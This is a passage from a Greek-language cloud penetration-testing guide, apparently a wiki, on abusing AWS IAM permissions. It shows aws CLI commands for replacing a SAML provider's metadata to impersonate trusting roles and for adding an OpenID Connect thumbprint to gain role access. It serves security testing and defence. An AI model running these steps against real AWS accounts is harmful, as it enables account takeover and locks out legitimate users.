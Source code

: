 Σημειώστε ότι κάνοντας αυτό **οι νόμιμοι χρήστες δεν θα μπορούν να συνδεθούν**. Ωστόσο, θα μπορούσατε να αποκτήσετε το XML, ώστε να βάλετε το δικό σας, να συνδεθείτε και να ρυθμίσετε το προηγούμενο πίσω.
```bash
# List SAMLs
aws iam list-saml-providers

# Optional: Get SAML provider XML
aws iam get-saml-provider --saml-provider-arn <ARN>

# Update SAML provider
aws iam update-saml-provider --saml-metadata-document <value> --saml-provider-arn <arn>

## Login impersonating roles that trust the SAML provider

# Optional: Set the previous XML back
aws iam update-saml-provider --saml-metadata-document <previous-xml> --saml-provider-arn <arn>
```
{% hint style="info" %}
TODO: Ένα εργαλείο ικανό να δημιουργεί τα SAML metadata και να συνδέεται με έναν καθορισμένο ρόλο
{% endhint %}

### `iam:UpdateOpenIDConnectProviderThumbprint`, `iam:ListOpenIDConnectProviders`, (`iam:`**`GetOpenIDConnectProvider`**)

(Δεν είμαι σίγουρος γι' αυτό) Αν ένας επιτιθέμενος έχει αυτές τις **άδειες** θα μπορούσε να προσθέσει μια νέα **Thumbprint** για να καταφέρει να συνδεθεί σε όλους τους ρόλους που εμπιστεύονται τον πάροχο.

{% code overflow="wrap" %}
```bash
# List providers
aws iam list-open-id-connect-providers
# Optional: Get Thumbprints used to not delete them
aws iam get-open-id-connect-provider --open-id-connect-provider-arn <ARN>
# Update Thumbprints (The thumbprint is always a 40-character string)
aws iam update-open-id-connect-provider-thumbprint --open-id-connect-provider-arn <ARN> --thumbprint-list 359755EXAMPLEabc3060bce3EXAMPLEec4542a3
```
{% endcode %}

## Αναφορές

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}